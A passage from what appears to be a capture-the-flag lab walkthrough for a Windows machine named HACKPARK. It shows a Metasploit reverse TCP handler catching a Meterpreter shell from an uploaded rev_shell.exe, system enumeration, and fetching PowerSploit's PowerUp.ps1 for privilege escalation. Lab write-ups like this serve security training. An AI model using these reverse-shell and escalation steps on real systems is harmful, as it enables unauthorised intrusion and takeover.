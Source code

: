 ```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.75.156:4444
```

Run the payload.

```bash
rev_shell.exe
c:\inetpub\wwwroot\App_Data\files>rev_shell.exe
```

You now have a meterpreter shell which is stable and full of nice features.

```bash
[*] Started reverse TCP handler on 10.10.75.156:4444
[*] Sending stage (175686 bytes) to 10.10.108.43
[*] Meterpreter session 1 opened (10.10.75.156:4444 -> 10.10.108.43:49310) at 2024-09-22 14:47:23 +0100

meterpreter >
```

For example you can use the `sysinfo` command to gather additional information about the system.

```bash
meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

That's great but our privileges are still low, let's move to the escalation part.  
You will use a script from the **PowerSploit** framework, download it.

```bash
root@ip-10-10-75-156:~# wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
--2024-09-22 15:55:41--  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.111.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 600580 (587K) [text/plain]
Saving to: \u2018PowerUp.ps1\u2019

PowerUp.ps1                                100%[=====================================================================================>] 586.50K  --.-KB/s    in 0.006s

2024-09-22 15:55:42 (99.6 MB/s) - \u2018PowerUp.ps1\u2019 saved [600580/600580]
```
